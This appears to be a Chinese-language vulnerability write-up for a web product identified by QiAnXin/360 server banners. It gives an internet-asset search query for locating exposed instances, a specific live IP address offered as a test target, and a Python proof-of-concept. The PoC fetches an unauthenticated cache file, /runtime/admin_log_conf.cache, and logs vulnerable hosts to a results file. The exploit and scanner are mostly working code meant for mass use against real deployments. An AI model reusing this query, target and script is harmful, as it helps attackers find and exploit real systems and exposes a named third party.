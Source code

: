 

## 一、资产搜索

```
banner="QiAnXin web server" || banner="360 web server" || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}"
```

## 二、测试网站

```
https://219.139.39.135:8443/login?refer=%2F
```

## 三、漏洞验证

![image-20240903173334232](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903173334232.png)

## 四、POC

```
def poc(target):
    payload = "/runtime/admin_log_conf.cache"
    headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/128.0.0.0Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-User": "?1",
        "Sec-Fetch-Dest": "document",
        "Accept-Encoding": "gzip,deflate,br",
        "Accept-Language": "zh-CN,zh;q=0.9,en-CN;q=0.8,en;q=0.7",
        "Priority": "u=0,i",
        "Connection": "close",
    }
    try:
        res1 = requests.get(url=target + payload, timeout=5, headers=headers, verify=False)
        content = re.findall(r's:12:"(.*?)";', res1.text, re.S)
        if res1.status_code == 200:
            if '/login/login' in content:
                with open('result.txt', 'a', encoding='utf-8') as f:
                    f.write(target + '\n')
        else:
            print(f"[+]该{target}可能存在问题请手动测试")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240903173105344](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903173105344.png)